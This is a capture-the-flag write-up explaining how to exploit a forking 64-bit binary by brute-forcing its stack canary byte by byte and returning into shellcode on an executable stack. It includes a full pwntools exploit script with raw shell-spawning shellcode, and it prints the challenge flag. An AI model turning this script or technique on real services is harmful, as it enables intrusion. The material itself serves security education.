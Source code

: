 # cookies-with-a-fork
## by Alexander Marx
### First steps
The first step for me is always to run the command ```pwn checksec [filename]``` on the file. This tells me what binary security settings are enabled as well as telling me if the program is 32 or 64 bit. The two things that are most notable from the security settings is that the canary is enabled an NX is disabled. This means we are going to have to bypass a canary however, we can execute things on the stack. The program is also 64 bit, meaning that the canary and the registers will all be 8 bytes long.

### Decompilation
The next step is to decompile the program. This program is pretty simple. It is made up of two main functions, main and child. Main calls fork and runs the child function on the forked process and then when the process has ended prints out the exit value of the process. The child function asks the user for input, prints out the memory address where the input will be stored, and then implements an overly complicated version of fgets. It is however important to note that the buffer that child is writing to is 200 bytes long and the implementation of fgets that child uses takes in 513 characters. This means that to exploit the program we will use a buffer overflow to overwrite the canary and the return address to get a shell open.

### Exploitation
Since we know that we can implement a buffer overflow and that there is a canary present, the first step we need to take is to figure out where the canary lives compared to the beginning of the buffer. This is simple to do. All that is needed is to write a loop that sends in a string of 200 characters plus an increasing number of other characters starting with 1. Then when we detect stack smashing we just need to print out how many characters needed to be entered to hit the canary. When this is done on this program, we see that we hit the canary after 201 characters, or in other words the canary lives immediately after the buffer.

Now we need to figure out what the canary is so that we can overwrite its location with the exact value needed so we don't trigger a stack smashing. However, since the program is printing out a value that the user does not enter, we can't leak the value of the canary. However, this program is using fork to run the child function. This means that no matter how many times child is called, the canary will never change. That means we can brute force the password. To do this we first have to create the base payload that we will send in. Since the canary is one character after the buffer we will send in 200 A's followed by the number 0 since that is always the first byte of the canary. Then for each other byte in the canary we send in the payload plus a value that counts up from 0-255. When stack smashing isn't detected we add that value to the payload and continue to the next value. It is important to note however that if we input the value 10 then this algorithm breaks since in ascii terms, 10 is a newline character which causes the program to stop taking in characters. To fix this we just have to continue to the next number every time we hit the number 10. This algorithm will find the value of the canary and automatically add it to the payload so we can overwite it and get to the return address.

Now that we can calculate the canary, we need to figure out how to open a shell. Since NX is disabled we can execute code on the stack. We are also given a memory location on the stack, the memory address where the user input is stored. That means that all we have to do is find shellcode that executes a shell and put it at the beginning of our payload as well as parsing out the memory address from what is printed and putting that at the end of the paylowad so that we can overwrite the return address with it. We don't have to figure out exactly where the return address is because since the canary ends on a partition of 8 bytes we can just write a bunch of addresses to the end of the payload and we know that one of them will overwrite the return address correctly.

Once we have all of these pieces we just need to write this to the program and then the program will execute our shellcode and open up a shell for us. Then with the shell we can run the command ```cat flag``` to get the flag.

### Python Script
```python
from pwn import *

p = remote("chal.ctf-league.osusec.org", 1555)
#p = process("./cookies-with-a-fork")
payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + b"A" * (200 - 27) + (0).to_bytes(1, "big")
canaryVal = 0
p.recvline()

for j in range(0,7):
    for i in range(0,256):
        if (i == 10):
            continue
        p.recvline()
        p.sendline(payload + (i).to_bytes(1, "big"))
        output = p.recvline()
        #print(output)

        if b"stack smashing" in output:
            continue
        else:
            payload += (i).to_bytes(1, "big")
            print(i)
            break

output = p.recvline()

address = ""
for i in range(45,57):
    address += chr(output[i])
#Please give me some data, I'll store it at 0x7ffc3ee63070.

payload += p64(int(address, 16)) * 30
p.sendline(payload)
p.interactive()
```

### Flag
```osu{br34k_4LL_t53_def3n5es!!!}```

